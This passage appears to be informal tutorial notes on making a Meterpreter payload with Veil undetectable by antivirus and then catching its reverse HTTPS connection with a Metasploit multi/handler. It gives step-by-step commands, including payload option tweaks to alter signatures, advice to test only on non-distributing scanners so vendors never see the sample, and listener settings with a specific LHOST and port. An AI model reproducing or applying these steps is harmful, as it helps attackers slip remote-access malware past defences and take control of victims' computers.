 make sure everything is ok. If we do like this will bypass every antivirus except AVG. We need to bypass that also.

How antivirus works is they have a huge collection of signatures, they compare our signatures to or file and if it matches any signatures it will flag it as a malware.

What we are going to do is, we are going to modify our file as much as we can to make it more unique.

Veil is alredy doing this like it obfuscates it, encrypting it, it injects in the memmory so it doesnt get detected.


But just make some differecnce in some optional options.

First modify the proccessors:

▶️> set PROCESSORS 1  [its just the minimum no: of processors, dont make it a huge number, just put it as 1]

Then set the time:

▶️> set SLEEP 6    [this is the time that takes by  teh payload before executing]


Now we modified some optional things just to make our payload different.


▶️> options

Make sure everything is ok


▶️> generate


[ scan the file with 'no distribute virus scanner'. Because it dosent share our signature with other antivirus programms, if we do with virus total it will share it with other antivirus programs, so dont do it with virus total, use no distribute ]


Also make veil update always. So update it before use.


If it detcted by any antivirus, try to make some changes in the options untill it gets undtected.



Now we need to use metasploit. [we uses metasploit for listen for incomming connetions from our meterpreter payload]

	▶️> msfconsole
	▶️> use exploit/multi/handler
	▶️> show options
	▶️> set PAYLOAD windows/meterpreter/reverse_https   [ this payload is the meterpreter payload that we generated befor, so we set it]
	▶️> set LHOST 10.20.14.213
	▶️> set LPORT 8080

[the payload, lhost and the port must be same as that of the payload we created bofore]

▶️> show options

Make sure everything is ok
